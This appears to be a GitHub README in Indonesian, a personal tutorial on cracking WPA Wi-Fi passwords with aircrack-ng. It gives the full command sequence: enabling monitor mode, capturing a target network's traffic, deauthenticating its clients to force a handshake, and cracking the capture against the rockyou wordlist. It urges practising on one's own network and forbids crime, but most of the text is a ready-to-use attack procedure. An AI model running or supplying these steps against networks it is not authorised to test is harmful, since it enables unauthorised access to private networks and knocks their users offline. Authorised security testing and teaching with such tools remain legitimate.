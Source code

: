 # hacking-wifi >>> airmon-ng >>> aerodump-ng >>> aircrack-ng 

sekedar catatan jika lupa </p>
untuk memulai percobaan harap memakai jaringan wifi kalian terlebih dahulu..

## TUTORIAL HACK WIFI + CRACKING 

untuk membuka ip address ketikkan perintah :
```bash
ip addr
```

pengaturan semula wificard biasanya dalam mode managed 
bisa di cek lewat perintah :
```bash
iwconfig
```
untuk menghindari konfik jaringan (refresh) bisa dengan perintah :</p>
catatan : ini mematikan semua koneksi internet!
```bash
sudo airmon-ng check kill
```
untuk mengubah dari mode managed ke mode monitor :
```bash
sudo airmon-ng start wlan0
```
ketikkan perintah di bawah ini untuk cek apakah sudah dalam mode monitor atau tidak
```bash
iwconfig
```
cek nama interface wifi - wificard : umunnya adalah wlan0/wlan0mon
```bash
sudo airmon-ng
```
untuk memonitoring jaringan wifi yang tersedia :</p> 
(ctrl+c) untuk stop scan 
```bash
sudo airodump-ng wlan0
```
jangan lupa untuk mencatatat bssid target dan channelnya...
</p>
catat bssid target contoh  : 98:F4:28:47:85:C8 >>> berada di channel : 11</p>
<p>
jika sudah kita saring/filter single target memakai perintah :

```bash
sudo airodump-ng wlan0 -d 98:F4:28:47:85:C8
```
sekarang waktunya menyimpan + menjalankan progam jahatnya..
sebagai contoh seperti ini : 
```bash
sudo airodump-ng -w hack1 -c 11 --bssid 98:F4:28:47:85:C8 wlan0
```
catatan : 
* opsi -w untuk menyimpan file 
* opsi hack1 : nama file
* opsi -c : channel wifi
* opsi --bssid : alamat bssid target (ganti bssid target yg di atas hanyalah sebuah contoh saja)
* opsi wlan0 nama perangkat wifi/card

setelah dirasa sudah paham bukalah terminal baru / tab baru
ketikkan :
```bash
sudo aireplay-ng --deauth 0 -a 98:F4:28:47:85:C8 wlan0 
```
jika berhasill sniff jaringan ada yg berjabat tangan
otomatis di terminal pertama akan ada tulisan </p>
(wpa handsake)
atau tulisan AEPOL / apa ya saya lupa ...</p>
itu berarti program sdh berhasil mendapatkan jabat-tangannya.
</p>
harap di ingat kita hanya butuh 2 tab terminal yg berjalan..
</p>
silahkan close semua program di terminalnya,
</p>
bisa menggunakan >>> ctrl+c 
</p>
sekarang waktunya ganti program aircrack
</p>
perlu diketahui file yg tersimpan biasanya tersimpan di path HOME/
</p>
untuk mengetahui tentang informasi hasil snif tsb 
</p>
bukalah file - contoh file hack1.pap dengan program wireshark
</p>
bisa dilakukan dengan terminal di path nya:

```bash
wireshark hack1-01.cap
```
atau bisa membuka dengan doble click di filenya
</p>
opsional : untuk menghidupkan jaringan internet seperti semula :

```bash
sudo airmon-ng stop wlan0 - monitor disable
```
sekarang kita akan menjalankan program AIRCRACK
</p>
ketikkan :

```bash
sudo aircrack-ng hack1-01.cap -w /usr/share/wordlists/rockyou.txt
```
gantilah nama file hack1-01.cap dengan file yg tersimpan di direktori kalian </p>
catatan :</p>
jika file rockyou.txt blm ada kalian bisa ektrak dlu file tsb</p>
cari di direktori /usr/share/wordlist/</p>

tunggu beberapa saat aircrack mengidentifikasi sandi </p>
hasil crack sandi berbeda-beda tergantung kesulitannya</p>
semakin rumit sandi itu akan semakin lama </p>
apalagi sandi tsb di atas 10 karakter dan angka</p> 
jadi jangan berharap itu bs berhasil cepat dan sempurna...</p>




opsional : tambahan untuk mengecek wifi adapter kamu support inject atau tidak nya :
```bash
aireplay-ng -9 wlan0
```
```bash
iw list | grep AP$
```

sekian catatan informasi untuk menjalankan sebuah program aircrack dan kawan2nya....</p>

## DILARANG KERAS UNTUK MELAKUKAN TINDAK KEJAHATAN
